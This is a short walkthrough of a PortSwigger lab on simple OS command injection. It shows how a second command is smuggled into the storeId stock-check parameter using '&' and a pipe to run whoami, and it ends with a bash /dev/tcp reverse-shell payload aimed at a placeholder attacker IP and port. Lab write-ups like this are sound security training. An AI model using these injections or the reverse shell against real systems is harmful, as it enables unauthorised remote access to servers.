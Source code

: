 ```yaml
---
description: https://portswigger.net/web-security/os-command-injection/lab-simple
---
```


# OS command injection, simple case

**Level:** <mark style="color:green;">**Apprentice**</mark>

<figure><img src="../../../../../.gitbook/assets/OS_command_injection_simple1.png" alt=""><figcaption></figcaption></figure>

* The lab says that we need some way to execute the command `whoami`.
* Start doing some recon to see if you can see an interesting parameter on the POST requests or in the URL

<figure><img src="../../../../../.gitbook/assets/OS_command_injection_simple2.png" alt=""><figcaption></figcaption></figure>

* The parameter in this lab is the `StoreId` .&#x20;
* The application is getting the number of units using a regex on the system. Like ( " **stockreport.pl 381 29** " or " **stockreport.pl & echo aiwefwlguh & 29** ")
* Remember that in **Linux** we can use a pipe to take _**STDOUT**_ of command and transfer it to _**STDIN**_ of the subsequent command.
* To make a simple test we put a **`"|" (pipe) <command>,`** like in the following image.

<figure><img src="../../../../../.gitbook/assets/OS_command_injection_simple3.png" alt=""><figcaption></figcaption></figure>

* In this case the code is not too much sanitized, but it gets more complicated than this.
* Now if we want to get access to a server using this vulnerability, we can use the following payload:  **bash -c "bash -i >& /dev/tcp/\<Your\_IP>/\<Port> 0>&1"**
